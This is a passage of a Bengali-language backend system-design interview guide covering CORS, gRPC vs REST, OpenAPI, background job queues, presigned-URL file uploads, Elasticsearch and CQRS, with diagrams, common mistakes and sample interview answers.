- **CORS is NOT Backend Security:** মনে রাখতে হবে CORS কিন্তু কোনো ব্যাকএন্ড ফায়ারওয়াল বা এপিআই সিকিউরিটি বাউন্ডারি নয়। এটি শুধুমাত্র ব্রাউজার লেভেলে কাজ করে। হ্যাকাররা পোস্টম্যান, কার্ল (cURL) বা ওয়ান-লাইন পাইথন স্ক্রিপ্ট দিয়ে CORS এপিআইকে অনায়াসে কল করতে পারবে। তাই অথেনটিকেশন ও অথরাইজেশন চেক সবসময় ব্যাকএন্ডেই করতে হবে।
- **Never use `*` with credentials:** যদি কুকি বা সেশন শেয়ার করার প্রয়োজন হয়, তবে অরিজিনে কখনই ওয়াইল্ডকার্ড `*` ব্যবহার করা যাবে না। অরিজিন অবশ্যই সুনির্দিষ্ট হতে হবে।

### Common Mistakes

- **Panic when seeing CORS Error:** ড্যাশবোর্ডে এরর দেখলে ভাবা যে ব্যাকএন্ড সার্ভার ক্র্যাশ করেছে। আসলে ব্যাকএন্ড ঠিকই সচল আছে এবং ডেটা প্রসেস করেছে, জাস্ট ব্রাউজার সিকিউরিটি পলিসির জন্য ডাটা ফ্রন্টএন্ড স্ক্রিপ্টকে রিড করতে দেয়নি।
- **Preflight `OPTIONS` call blocking latency:** প্রতিটা এপিআই কলের আগে ১টি করে এক্সট্রা ওপিটিঅন্স রিকোয়েস্ট হওয়া এপিআই লেটেন্সি দ্বিগুণ করে দেয়। এপিআই গেটওয়ে বা রিভার্স প্রক্সিতে (Nginx) OPTIONS ক্যাশ হেডার (`Access-Control-Max-Age: 86400`) সেট করা উচিত।

### Interview Angle

> "CORS হলো ব্রাউজার নিয়ন্ত্রিত সিকিউরিটি পলিসি যা এক অরিজিনের স্ক্রিপ্টকে অন্য অরিজিনের ডেটা অ্যাক্সেস করতে বাধা বা অনুমতি দেয়। এটি সার্ভার টু সার্ভার কলের ক্ষেত্রে প্রযোজ্য নয়। আমরা প্রোডাকশনে ক্যাশিং এড়াতে OPTIONS রিকোয়েস্টে Access-Control-Max-Age হেডার সেট করি এবং ক্রেডেনশিয়াল শেয়ারের জন্য ওয়াইল্ডকার্ড পরিহার করে স্পেসিফিক অরিজিন ম্যাপিং করি।"


## 49. gRPC vs REST

### Core Idea

- **REST (Representational State Transfer):** এটি একটি ক্লাসিক এপিআই স্টাইল যা **HTTP/1.1** এবং টেক্সট-ভিত্তিক **JSON/XML** পে-লোড ব্যবহার করে কাজ করে। এটি রিসোর্স-ওরিয়েন্টেড (Resource-oriented) এবং অত্যন্ত হিউম্যান-রিডঅ্যাবল (যেমন: `/api/users/1`)।
- **gRPC (Google Remote Procedure Call):** এটি গুগল নির্মিত একটি সুপার-ফাস্ট ও মডার্ন আরপিসি ফ্রেমওয়ার্ক যা বাইনারি প্রোটোকল **HTTP/2** এবং **Protocol Buffers (Protobuf)** সিরিয়ালাইজেশন ব্যবহার করে কাজ করে। এটি সার্ভিস-ওরিয়েন্টেড (যেমন: `UserService.GetUser()`)।

### Payload Size: REST JSON vs gRPC Protobuf Binary

```text
REST API (Text-based JSON payload - 120 bytes)
┌────────────────────────────────────────────────────────┐
│ { "user_id": 450, "name": "Awolad", "active": true }   │ <-- Large human readable text
└────────────────────────────────────────────────────────┘

gRPC API (Protocol Buffers Binary - 18 bytes)
┌────────────────────────────────────────────────────────┐
│ ÂAwolad                     │ <-- Dense, compressed binary stream
└────────────────────────────────────────────────────────┘
```

### gRPC vs REST Trade-offs Table

| বৈশিষ্ট্য | REST | gRPC |
| :--- | :--- | :--- |
| **প্রোটোকল** | HTTP/1.1 (সাধারণত)। | **HTTP/2** (মাস্ট)। |
| **ডাটা ফরম্যাট** | টেক্সট ভিত্তিক **JSON** (হিউম্যান রিডঅ্যাবল)। | সংকুচিত বাইনারি **Protocol Buffers**। |
| **নেটওয়ার্ক স্পিড** | বাইনারির চেয়ে তুলনামূলক স্লো এবং পে-লোড সাইজ বড়। | **চরম লেভেলের ফাস্ট** এবং পে-লোড সাইজ অত্যন্ত ক্ষুদ্র। |
| **Streaming** | শুধুমাত্র ইউনি-ডিরেক্টরি (Server-Sent Events). | **Full-Duplex** (Client, Server, and Bi-directional streaming). |
| **API Contract** | টাইট চুক্তি নেই (OpenAPI/Swagger আলাদা লিখতে হয়)। | **Contract-First:** `.proto` ফাইলের মাধ্যমে কঠোর ডাটা টাইপ ও কোড জেনারেশন। |
| **ব্রাউজার সাপোর্ট** | শতভাগ ইউনিভার্সাল সাপোর্ট। | সরাসরি ব্রাউজার সাপোর্ট দুর্বল (Requires gRPC-Web proxy). |

### Senior Insight

- **Internal microservices Backbone:** আধুনিক হাই-স্কেল মাইক্রোসার্ভিস ডিজাইনে **gRPC**-কে সার্ভিসের নিজেদের ভেতরের কমিউনিকেশনের (Service-to-service communication / East-West traffic) ব্যাকবোন বা প্রধান মাধ্যম হিসেবে ব্যবহার করা হয়, কারণ HTTP/2-এর মাল্টিপ্লেক্সিং ও বাইনারি কম্প্রেশন নেটওয়ার্ক ব্যান্ডউইথ ও লেটেন্সি নাটকীয়ভাবে বাঁচায়।
- **REST for Public Gateway:** বাইরের পাবলিক ক্লায়েন্টদের ব্যবহারের জন্য (North-South traffic) **REST** বা **GraphQL** এপিআই আইডিয়াল, কারণ এটি সবার জন্য ইন্টিগ্রেট করা অত্যন্ত ইজি এবং ব্রাউজার কম্প্যাটিবল।
- **Protobuf Backward Compatibility:** প্রোটোফাইল ডিজাইন করার সময় ট্যাগের ফিল্ড নাম্বার (যেমন `string name = 2;`) কখনই চেঞ্জ করা যাবে না। নাম চেঞ্জ করলেও ট্যাগ নাম্বার সেম রাখতে হবে, অন্যথায় ওল্ড কোড বাইনারি ডিকোড করতে পারবে না।

### Common Mistakes

- **Using gRPC blindly for simple web-based CRUD APIs:** সাধারণ সিঙ্গেল পেজ ওয়েবের জন্য আরপিসি ব্যবহার করা ভুল। এতে প্রক্সি হ্যান্ডলিং জটিলতা বাড়ে এবং ডেভেলপমেন্ট ভেলোসিটি কমে যায়।
- **Ignoring Deadlines:** জিপিআরসিতে কোনো টাইমআউট না রাখলে সার্ভিস চেইন হ্যাং হবে। জিপিআরসিতে ডিফল্ট টাইমআউটের পরিবর্তে **Deadlines** ব্যবহার করে ক্লায়েন্ট থেকেই সর্বোচ্চ সময় নির্ধারণ করতে হবে।

### Interview Angle

> "REST টেক্সট-ভিত্তিক ও সহজলভ্য হওয়ায় পাবলিক ও ক্লায়েন্ট-ফেসিং এপিআই ডিজাইনের জন্য সেরা। অপরদিকে gRPC বাইনারি Protobuf ও HTTP/2 ব্যবহার করে চরম লেভেলের নেটওয়ার্ক গতি এবং টাইপ-সেফ কোড জেনারেশন দেয়, যা ডিস্ট্রিবিউটেড মাইক্রোসার্ভিসের ভেতরের কমিউনিকেশনের জন্য আইডিয়াল। আমরা হাই-স্কেল এন্টারপ্রাইজে দুটোর কম্বিনেশন ব্যবহার করি।"


## 50. OpenAPI / Swagger

### Core Idea

- **OpenAPI Specification (OAS):** হলো রেস্টফুল (REST) এপিআই ডিজাইনের একটি গ্লোবাল এবং ইউনিভার্সাল ডেসক্রিপশন স্ট্যান্ডার্ড। এটি একটি JSON বা YAML ফাইলের মাধ্যমে এপিআই-এর সমস্ত রাউট, রিকোয়েস্ট পে-লোড, টাইপ, রেসপন্স ও এরর কোড নিখুঁতভাবে ডকুমেন্ট করে।
- **Swagger:** হলো একগুচ্ছ ওপেন-সোর্স টুলস (যেমন: Swagger UI, Swagger Editor) যা এই OpenAPI ফাইল রিড করে ইন্টারক্টিভ এবং রানটাইমে টেস্টিং করার মতো চমৎকার ওয়েব ডকুমেন্টেশন পেজ জেনারেট করে।

### OpenAPI Spec Ecosystem Flow

```mermaid
flowchart LR
    Spec[OpenAPI Spec: openapi.yaml] --> Doc[1. Swagger UI Document Page]
    Spec --> Mock[2. Prism: Instant API Mock Server]
    Spec --> SDK[3. OpenAPI Generator: Auto Frontend/Backend SDKs]
    Spec --> Test[4. Schemathesis: Automatic Contract Testing]
    
    style Spec fill:#fbb,stroke:#333
```

### OpenAPI-এর বাস্তব ব্যবহারিক সুবিধাসমূহ

1. **Design-First / Contract-First Approach:** কোডিং শুরু করার আগেই ডিজাইনার ও ফ্রন্টএন্ড টিম মিলে একটি `openapi.yaml` ডিজাইন করতে পারে। এর ফলে ব্যাকএন্ড ডেভেলপার কোড করতে করতে ফ্রন্টএন্ড ডেভেলপার ওই ডকুমেন্ট দেখে ইনস্ট্যান্ট **Mock Server** চালূ করে ক্লায়েন্ট তৈরি শুরু করতে পারে।
2. **Auto-generated SDKs:** জেনারেটর টুল ব্যবহার করে সরাসরি টাইপস্ক্রিপ্ট বা ডার্ট (Flutter) ল্যাঙ্গুয়েজের এপিআই ক্লায়েন্ট কোড ও টাইপ ভ্যালিডেশন জেনারেট করা যায়। ডেভেলপারকে আলাদা করে এপিআই কল করার ফেচ লাইব্রেরি লিখতে হয় না।
3. **Contract Testing:** পাইপলাইনে অটোমেটিক এপিআই টেস্ট রান করে চেক করা যায় যে ব্যাকএন্ড কোড ডকুমেন্টের রুলস মেনে চলছে কিনা।

### Senior Insight

- **API Governance and Pipeline Gate:** সিনিয়র আর্কিটেক্টরা ড্যাশবোর্ডে ওয়ান-টাইম Swagger পেজ বানিয়েই দায়িত্ব শেষ করেন না। তারা সিআই পাইপলাইনে (CI Pipeline) একটি গেইট কিপার বসান যা প্রতিটি পুল রিকোয়েস্টে চেক করে নতুন কোনো চেঞ্জের কারণে এপিআই ডকুমেন্টের ব্রেকিং চেঞ্জ (Breaking Change) ঘটছে কিনা (OAS Diff validation)।
- **Automatic Code Generation (TSOA / NestJS OpenAPI):** কোডে ম্যানুয়ালি বিশাল বড় YAML ফাইল লেখার দরকার নেই। আধুনিক ফ্রেমওয়ার্কগুলোতে ডেকোরেটর বা কমেন্ট ব্লক (যেমন: NestJS Swagger module) ব্যবহার করে কোড থেকেই ১০০% নিখুঁত OpenAPI ডকুমেন্ট জেনারেট করা যায়।

### Common Mistakes

- **Outdated Documentation:** ব্যাকএন্ড কোড আপডেট হয়েছে কিন্তু Swagger ডকুমেন্টেশন আপডেট করা হয়নি। এটি ডেভেলপারদের কনফিউজড করে ও ভুল ইন্টিগ্রেশন ঘটায়।
- **Not documenting error schemas:** ডকুমেন্টে শুধুমাত্র সফল `200 OK` রেসপন্স শো করা কিন্তু `400 Bad Request` বা `401 Unauthorized` এর এরর বডির জেসন ফরম্যাট কেমন হবে তা উল্লেখ না করা।

### Interview Angle

> "OpenAPI শুধু ডকুমেন্টেশন নয়, এটি আমাদের টিমগুলোর মাঝে এপিআই চুক্তিনামা বা API Governance Tool হিসেবে কাজ করে। আমরা ডিজাইন-ফার্স্ট প্যাটার্ন ফলো করে প্রজেক্ট শুরু করি, কোড থেকে অটোমেটিক স্পেক জেনারেট করি এবং সিআই পাইপলাইনে OAS Diff ইন্টিগ্রেট করে ব্রেকিং চেঞ্জ প্রতিরোধ করি।"


## 51. Background Jobs & Workers

### Core Idea

**Background Jobs & Workers (ব্যাকগ্রাউন্ড জব ও ওয়ার্কার্স):** ব্যাকএন্ড সার্ভারে যখন এমন কোনো দীর্ঘমেয়াদী বা ভারী রিকোয়েস্ট আসে যা প্রসেস হতে ৫ সেকেন্ড থেকে কয়েক মিনিট পর্যন্ত সময় নিতে পারে, তখন মেইন HTTP রিকোয়েস্ট-রেসপন্স সাইকেলকে ব্লক না করে কাজটিকে একটি ডিস্ট্রিবিউটেড মেসেজ কিউতে (Job Queue) পুশ করা হয়। ব্যাকগ্রাউন্ডে অলওয়েজ চালু থাকা কিছু ডেডিকেটেড অ্যাপ্লিকেশন প্রসেস (Workers) কিউ থেকে একে একে কাজগুলো কুড়িয়ে নিয়ে সাইলেন্টলি সম্পন্ন করে।

### Distributed Job Queue Architecture

```mermaid
flowchart LR
    Client[Web API Node] -->|1. Push heavy job: generate_pdf| Queue["(Redis Job Queue: BullMQ)"]
    Queue -->|2. Poll job & locked| Worker1[Background Worker Node 1]
    Queue -->|3. Parallel processing| Worker2[Background Worker Node 2]
    Worker1 -->|4. Failure retry state| DLQ["(Dead Letter Queue - DLQ)"]
    
    style Queue fill:#fdb,stroke:#333
    style Worker1 fill:#bfb,stroke:#333
    style Worker2 fill:#bfb,stroke:#333
    style DLQ fill:#fbb,stroke:#333
```

### Worker Lifecycle Key Settings

- **Visibility Timeout:** একটি ওয়ার্কার কিউ থেকে কাজ তুলে নেওয়ার পর কিউ ওই কাজটি অন্য ওয়ার্কারদের কতক্ষণ পর্যন্ত দেখতে দিবে না। কাজ শেষ না হলে লক রিলিজ হয়ে রি-ডেলিভারি হয়।
- **Exponential Backoff on Failures:** কাজ ফেইল করলে সাথে সাথে ট্রাই না করে ক্রমান্বয়ে ওয়েটিং টাইম বাড়িয়ে রিট্রাই করা।
- **Job Prioritization:** ক্রিটিক্যাল কাজের কিউ আলাদা রাখা (যেমন: পেমেন্ট নোটিফিকেশন হাই-প্রায়োরিটি কিউ, আর উইকলি রিপোর্ট লো-প্রায়োরিটি কিউ)।

### Senior Insight (Mitigating Job Duplication)

- **Strict Idempotency is a Must:** ডিস্ট্রিবিউটেড সিস্টেমে নেটওয়ার্ক ল্যাগ বা ওয়ার্কার শাটডাউনের জন্য একই জব একাধিকবার রি-ডেলিভারি হওয়া খুবই কমন (At-least-once). তাই প্রতিটা জব হ্যান্ডলারকে অবধারিতভাবে **Idempotent** হতে হবে।
- **সিনিয়র সলিউশন (Job Deduplication Lock):**
  জবের কন্টেন্ট থেকে একটি ইউনিক হ্যাশ বা ডি-ডুপ্লিকেশন কী (যেমন: `job_hash = user_id:report_month`) জেনারেট করে প্রসেস করার আগে Redis-এ একটি লক ডিস্ট্রিবিউট করতে হবে। যদি অলরেডি লক এক্সিস্ট করে, তবে কাজটি সাইলেন্টলি স্কিপ করতে হবে।
- **Monitoring Queue Depth:** প্রোডাকশনে ওয়ার্কার স্কেলিংয়ের মূল ফ্যাক্টর হলো **Queue Depth** (কিউতে কতগুলো পেন্ডিং জব জমে আছে)। পেন্ডিং জবের সংখ্যা বাড়লে অটো-স্কেলিং অ্যালগরিদমের মাধ্যমে অতিরিক্ত ব্যাকগ্রাউন্ড কন্টেইনার ওয়ার্কার চালু করা উচিত।

### Common Mistakes

- **Using a Relational Database as a Job Queue:** আরডিবিএমএস টেবিলে রো ইনসার্ট করে ব্যাকগ্রাউন্ডে `SELECT * WHERE status = 'pending' LIMIT 1 FOR UPDATE` কুয়েরি মারার মাধ্যমে ম্যানুয়াল কিউ বানানো। হাই-কনকারেন্সিতে এটি ডাটাবেস রো-লকিং ওভারহেড বাড়িয়ে ডাটাবেস সম্পূর্ণ জ্যাম করে ফেলে। কিউ এর জন্য ডেডিকেটেড ইন-মেমোরি ক্যাশ **Redis** (using BullMQ) অথবা **Amazon SQS / RabbitMQ** ব্যবহার করতে হবে।
- **Infinite Retries without Limits:** রিট্রাই পলিসিতে কোনো লিমিট না রাখা। এর ফলে এরর দেওয়া জবটি ওয়ার্কারগুলোকে সারাজীবন ব্যস্ত রেখে কিউ সিস্টেম ক্র্যাশ করাবে।

### Interview Angle

> "ব্যাকগ্রাউন্ড জব কিউইং আমাদের এপিআই লেটেন্সি সেভ করে এবং মূল থ্রেড রিলিজ করে দেয়। আমরা প্রজেক্টে Redis এবং BullMQ ব্যবহার করে জব স্টেট ও ওয়ার্কার পুল ডিজাইন করি। হাই-স্কেল প্রোডাকশনে আমরা ডেড লেটার কিউ (DLQ), জবের Exponential backoff with Jitter এবং ভোক্তা লেভেলে কড়া Idempotency নিশ্চিত করি।"


## 52. File Uploads & Object Storage

### Core Idea

**File Uploads & Object Storage:** ব্যাকএন্ড আর্কিটেকচারে ক্লায়েন্টদের আপলোড করা যেকোনো বড় ফাইল (যেমন: ইমেজ, পিডিএফ, ভিডিও, অডিও) সরাসরি ব্যাকএন্ড অ্যাপ্লিকেশন সার্ভারের লোকাল হার্ডডিস্কে সেভ করা সম্পূর্ণ অনুচিত। লোকাল ডিস্কে ফাইল রাখলে কন্টেইনার স্কেলিং বা রিস্টার্টের সময় সমস্ত আপলোডেড ডেটা চিরতরে মুছে যায় (Ephemeral Disks)। এর সমাধান হলো **Object Storage** (যেমন: AWS S3, Google Cloud Storage, DigitalOcean Spaces) ব্যবহার করা যা হাইলি স্কেলেবল, সস্তা এবং নিরাপদ।

### Traditional Upload vs Secure Presigned URL Upload

```mermaid
sequenceDiagram
    autonumber
    actor Client as User Browser
    participant App as Backend API Server
    participant S3 as AWS S3 Bucket

    rect rgb(255, 240, 245)
        Note over Client, S3: Traditional Upload (High Server Bandwidth Cost)
        Client->>App: 1. POST /upload (Heavy payload stream)
        Note over App: App downloads buffer in RAM & uploads to S3
        App->>S3: 2. Stream Buffer to S3
        S3-->>App: Success URL
        App-->>Client: HTTP 200 OK
    end

    rect rgb(240, 255, 240)
        Note over Client, S3: Optimized Presigned URL Upload (Zero Server Load!)
        Client->>App: 1. GET /api/upload-url (filename: profile.jpg)
        Note over App: Generates cryptographic signed URL (expires in 5m)
        App-->>Client: Returns Presigned URL (HTTP PUT to S3)
        Client->>S3: 2. PUT profile.jpg Directly to AWS S3 (Pure S3 upload!)
        S3-->>Client: HTTP 200 OK
    end
```

### Presigned URL-এর কার্যপ্রণালী (How Presigned URL Works)

১. **Request URL:** ক্লায়েন্ট প্রথমে ব্যাকএন্ড এপিআইতে রিকোয়েস্ট করে বলে, "আমি একটি ইমেজ আপলোড করতে চাই।"
২. **Cryptographic Signature:** ব্যাকএন্ড ক্লাউড এসডিকে ব্যবহার করে একটি বিশেষ টেম্পোরারি ইউআরএল জেনারেট করে যা ক্রিপ্টোগ্রাফিক্যালি সাইনড থাকে এবং এর একটি নির্দিষ্ট মেয়াদ (যেমন: ৫ মিনিট) থাকে।
৩. **Direct PUT Upload:** এপিআই থেকে ইউআরএলটি নিয়ে ব্রাউজার ফ্রন্টএন্ড সরাসরি **AWS S3**-এর বালতিতে ফাইলটি আপলোড করে দেয়।
৪. **সুবিধা:** ব্যাকএন্ড সার্ভারের মেমোরি ও নেটওয়ার্ক ব্যান্ডউইথ খরচ হয় একদম শূন্য! লাখ লাখ ইউজার একসাথে বড় ফাইল আপলোড করলেও মূল সার্ভার ওভারলোড হবে না।

### Senior Insight (Security Hardening)

- **Sanitize File Extensions & MIME Types:** কখনও ইউজারের প্রোভাইড করা ফাইল এক্সটেনশন অন্ধভাবে ট্রাস্ট করবেন না (হ্যাকার `malicious.js` ফাইলের নাম বদলে `photo.jpg` করে আপলোড করতে পারে)। ব্যাকএন্ডে অবশ্যই ফাইলের প্রথম কয়েক বাইট চেক করে রিয়াল হেডার **Magic Numbers / MIME Type** ভ্যালিডেট করতে হবে।
- **Content-Disposition and XSS prevention:** ইউজার আপলোড করা কোনো ফাইল যখন ডিরেক্ট ইউআরএল দিয়ে ওপেন করা হয়, হ্যাকাররা সেখানে ক্ষতিকর স্ক্রিপ্ট সহ এইচটিএমএল আপলোড করে কুকি চুরি করতে পারে। এর প্রতিরোধের জন্য পাবলিক ফাইলের হেডার `Content-Disposition: attachment` অথবা `Content-Security-Policy` কড়া করতে হবে।
- **Malware Scanning:** হাই-সিকিউরড প্রোডাকশন এন্টারপ্রাইজে ফাইল আপলোড হওয়ার পর AWS S3 ইভেন্ট ট্রিগার করে একটি ব্যাকগ্রাউন্ড অ্যান্টিভাইরাস বা ম্যালওয়্যার স্ক্যানার (যেমন ClamAV) দিয়ে ফাইলটি পাস করা বাধ্যতামূলক।

### Common Mistakes

- **Storing files on the local server filesystem:** হরিজন্টাল স্কেলিংয়ের সময় অন্য নোড এই লোকাল ফাইল খুঁজে পাবে না এবং নোড ক্র্যাশ করলে ফাইল ডিলিট হবে।
- **Accidentally opening buckets to the public:** ক্লাউড স্টোরেজের পারমিশন সম্পূর্ণ ওপেন (`Public Read`) রাখা। এটি কোম্পানির ডাটা লিক ও হ্যাকিংয়ের পথ খুলে দেয়। বাকেট সবসময় থাকবে **Private** এবং ফাইল রিড করার জন্যও সাময়িক **Signed Read URL** ব্যবহার করা উচিত।

### Interview Angle

> "বড় ফাইল আপলোডের ক্ষেত্রে আমরা ব্যাকএন্ড মেমোরি ও ব্যান্ডউইথ সেভ করতে Presigned URL (AWS S3) মেথড ব্যবহার করি, যার ফলে ক্লায়েন্ট সরাসরি অবজেক্ট স্টোরেজে ডেটা পুশ করতে পারে। আমরা সিকিউরিটির জন্য ফাইল টাইপ ভ্যালিডেশনে Magic Numbers চেক করি, বাকেট প্রাইভেট রাখি এবং ম্যালওয়্যার স্ক্যানিং ও কড়া Content-Disposition হেডার ইন্টিগ্রেট করি।"


## 53. Search Systems (Elasticsearch/OpenSearch)

### Core Idea

**Search Systems (সার্চ সিস্টেমস):** রিলেশনাল ডাটাবেসগুলো (যেমন PostgreSQL) সুনির্দিষ্ট রিলেশনাল কুয়েরির জন্য চমৎকার স্পিড দেয়, কিন্তু যখন হাজার হাজার প্রোডাক্টের ভেতর ফাজি সার্চ (Fuzzy Search - বানান ভুল হলেও খুঁজে পাওয়া), প্রাসঙ্গিকতা অনুযায়ী র‍্যাংকিং (Relevance Scoring), অথবা লাইভ সাজেশন (Autocomplete) ও জটিল ড্যাশবোর্ড ফিল্টারিংয়ের প্রয়োজন হয়, তখন সাধারণ এসকিউএল কুয়েরি (`WHERE name LIKE '%phone%'`) ব্যর্থ হয়। এই ক্ষেত্রে আমাদের একটি ডেডিকেটেড সার্চ ইঞ্জিন বা ডাটা স্টোর ব্যবহার করতে হয় যা **Inverted Index** ডাটা স্ট্রাকচার ব্যবহার করে মিলি-সেকেন্ডে বিলিয়ন ডাটা সার্চ করতে পারে (যেমন: **Elasticsearch** বা **OpenSearch**)।

### Inverted Index Concept

সাধারণ আরডিবিএমএস-এ কলাম চেক করে শব্দ খোঁজা হয়, আর ইনভার্টেড ইনডেক্সে প্রতিটি একক শব্দের (Term) একটি ইউনিক ডিরেক্টরি বুক থাকে যেখানে লেখা থাকে ওই শব্দটি কোন কোন ডকুমেন্টে (Document ID) আছে:
```text
[ Words / Terms ]     [ Document IDs Map ]
"iphone"        ────► Document #1, Document #12
"wireless"      ────► Document #5, Document #12, Document #45
"charger"       ────► Document #12, Document #99
```
যদি ইউজার সার্চ করে `"iphone charger"`, তবে সার্চ সিস্টেম ১ মিলি-সেকেন্ডের ভেতর কমন ডকুমেন্ট **#12** খুঁজে নিয়ে আসবে এবং তার প্রাসঙ্গিকতার স্কোর বের করে সবার উপরে রেন্ডার করবে।

### Search Synchronization Pipeline Architecture

```mermaid
flowchart LR
    Client[Web API Node] -->|1. Search Request| ES["(Elasticsearch Cluster)"]
    Client -->|2. Write / Update Data| DB["(Primary PostgreSQL DB)"]
    DB -->|3. Transaction Logs - WAL| CDC[CDC Relay: Debezium]
    CDC -->|4. Stream Updates| Kafka["(Apache Kafka)"]
    Kafka -->|5. Indexing Worker| ES
    
    style ES fill:#fdb,stroke:#333
    style DB fill:#fbb,stroke:#333
```

### Senior Insight

- **Eventual Consistency is Real:** মনে রাখতে হবে সার্চ ইঞ্জিন বা ক্যাশ ইনডেক্স সবসময় **Eventually Consistent** হয়। ডাটাবেসে প্রোডাক্ট এডিট করার সাথে সাথে ইলাস্টিকসার্চে রি-ইনডেক্স হতে ব্যাকগ্রাউন্ড কিউ ল্যাগের জন্য ২-৩ সেকেন্ড পর্যন্ত সময় লাগতে পারে। তাই সার্চ পেজে হুট করে ডেটা ক্যাশ ডিলে হতে পারে, এটি UI-তে হ্যান্ডেল করতে হবে।
- **Zero-Downtime Reindexing using Aliases:** যখন আমাদের ডাটা ফরম্যাট বা ম্যাপিং ব্রেক করে নতুন ইনডেক্স বানাতে হয়, তখন প্রোডাকশন রানিং অবস্থায় ডিরেক্ট ইনডেক্স ডিলিট করা সম্পূর্ণ নিষিদ্ধ। এই ক্ষেত্রে **Index Aliases** ব্যবহার করতে হবে। আমরা ব্যাকগ্রাউন্ডে একটি নতুন ইনডেক্স (`v2`) তৈরি করে ডেটা সিঙ্ক করে ওয়ান-শটে অ্যালিয়াস পয়েন্টার `v1` থেকে `v2`-এ ফরোয়ার্ড করে দিই। ইউজার ওল্ড ইনডেক্সেই হিট করতে থাকে এবং কোনো ট্রাফিক গ্যাপ টের পায় না।

### Common Mistakes

- **Using Elasticsearch as the Primary Database:** ইলাস্টিকসার্চ রিডের জন্য মারাত্মক ফাস্ট হলেও এটি ট্রানজেকশনাল ইন্টিগ্রিটি বা রিলেশনাল ডেটা সততা (ACID) ধরে রাখতে পারে না। এটি ডেটা হারানোর ঝুঁকি বাড়ায়। মেইন ডেটা থাকবে SQL-এ, আর সার্চ ডেটা অ্যাসিনক্রোনাস সিঙ্কের মাধ্যমে থাকবে ইলাস্টিকসার্চে।
- **Not defining explicit mapping:** ইলাস্টিকসার্চকে নিজের মতো ডাইনামিক্যালি ডেটা ইনডেক্স করতে দেওয়া। এতে স্ট্রিং টাইপগুলো ভুল অ্যানালাইজার নিয়ে ব্লক হবে এবং ফাজি সার্চ কাজ করবে না। সবসময় কড়া **Explicit Mapping & Tokenizer** ডিফাইন করতে হবে।

### Interview Angle

> "পূর্ণাঙ্গ টেক্সট সার্চ, ফাজি লজিক ও ডাইনামিক ফিল্টারিংয়ের জন্য আমরা ইনভার্টেড ইনডেক্স ডাটা স্ট্রাকচার সমৃদ্ধ Elasticsearch বা OpenSearch ব্যবহার করি। আমরা ডাটাবেস থেকে ডেটা রিয়েল-টাইমে সিঙ্ক করতে Transactional Outbox বা CDC (Debezium + Kafka) ডেটা পাইপলাইন সেটআপ করি এবং জিরো-ডাউনটাইম রিবিল্ড নিশ্চিত করতে Index Aliases স্ট্র্যাটেজি ইমপ্লিমেন্ট করি।"


## 54. CQRS (Command Query Responsibility Segregation)

### Core Idea

**CQRS (Command Query Responsibility Segregation):** হলো এমন একটি অ্যাডভান্সড সফটওয়্যার আর্কিটেকচারাল প্যাটার্ন যা সিস্টেমের ডেটা রাইট করার লজিক (Commands) এবং ডেটা রিড করার লজিককে (Queries) সম্পূর্ণ আলাদা বা পৃথক মডেলে বিভক্ত করে ফেলে।
- **Commands:** শুধুমাত্র ডেটা ক্রিয়েট, আপডেট বা ডিলিট করে। এটি ট্রানজেকশনাল সততার (ACID) ওপর ফোকাস করে এবং কোনো ডেটা রিটার্ন করে না (শুধুমাত্র আইডি ছাড়া)।
- **Queries:** শুধুমাত্র ডেটা রিড করে স্ক্রিনে ভিউ তৈরি করে। এটি দ্রুততম রিড স্পিড অর্জনের জন্য রিড-অপ্টিমাইজড বা সম্পূর্ণ ডিনরমালাইজড ডাটা স্টোর ব্যবহার করে।

### Command Query Architecture & Segregated Databases

```mermaid
graph TD
    subgraph Commands [Write Model - Normalized DB]
        Cmd[API Client: Create Order] --> WriteModel[Command Handler]
        WriteModel --> WriteDB["(PostgreSQL - Strict 3NF ACID)"]
    end

    subgraph Queries [Read Model - Denormalized DB]
        QueryModel[Query Handler] --> ReadDB["(Elasticsearch / Redis - Denormalized JSON)"]
        QueryModel <-- API Client: Search Dashboard --> Client[API Client]
    end
    
    WriteDB -.->|Asynchronous CDC Sync / Event Bus| ReadDB
    
    style WriteDB fill:#fbb,stroke:#333
    style ReadDB fill:#bfb,stroke:#333
```

### কেন আমাদের CQRS প্রয়োজন?

সাধারণ মনোলিথে একই ওআরএম মডেল বা ডোমেইন দিয়ে রিড ও রাইট উভয় কাজই করা হয়। কিন্তু যখন সিস্টেমে রিড ট্রাফিক এবং রাইট ট্রাফিকের রেশিও চরম অসঙ্গতিপূর্ণ হয় (যেমন: ১০ লাখ রিড কুয়েরির বিপরীতে মাত্র ১০০টি রাইট অপারেশন) এবং রিড ড্যাশবোর্ডে হিউজ পরিমাণ জটিল রিলেশনাল জয়েন প্রয়োজন হয়, তখন একই টেবিলে কুয়েরি মারলে ডেটাবেস থ্রোটল করে। 
CQRS-এর মাধ্যমে আমরা রাইট অপারেশন চালাতে পারি একটি নরমালাইজড ACID ডাটাবেসে (Postgres) এবং ব্যাকগ্রাউন্ড ইভেন্টের মাধ্যমে রিড মডেল আপডেট করতে পারি একটি ডিনরমালাইজড ফাস্ট ডাটা স্টোরে (যেমন: MongoDB বা Elasticsearch)।

### Senior Insight

- **Eventual Consistency & Saga pattern:** যেহেতু রাইট ডিবি এবং রিড ডিবি সম্পূর্ণ আলাদা এবং সিঙ্ক প্রসেস অ্যাসিনক্রোনাস, তাই কোয়েরি মডেলে সবসময় আংশিক **Eventual Consistency** থাকবে (ইউজার নতুন অর্ডার পোস্ট করার সাথে সাথে হয়তো সার্চ লিস্টে ১ সেকেন্ডের জন্য ওল্ড লিস্ট দেখতে পারে)। এই মেকানিজম UI-তে প্রপারলি হ্যান্ডেল করতে হবে।
- **Do Not Overengineer:** এটি অত্যন্ত জটিল এবং এর ডেভেলপমেন্ট ও মেইনটেন্যান্স ওভারহেড হিউজ। খুব সাধারণ ক্রুড (CRUD) প্রজেক্টে বা রিড লোড কম থাকলে শুরুতে কখনই CQRS প্যাটার্ন ইমপ্লিমেন্ট করা উচিত নয়। এটি শুধুমাত্র হাই-ট্রাফিক অ্যানালিটিক্যাল বা ডিস্ট্রিবিউটেড মাইক্রোসার্ভিস সিস্টেমেই ব্যবহার করা যুক্তিযুক্ত।

### Common Mistakes

- **Using CQRS blindly on simple admin CRUD pages:** এটি প্রজেক্টের ডেভেলপমেন্ট স্পিড চরম কমিয়ে দেয় এবং কোডের আর্কিটেকচার জটিল করে।
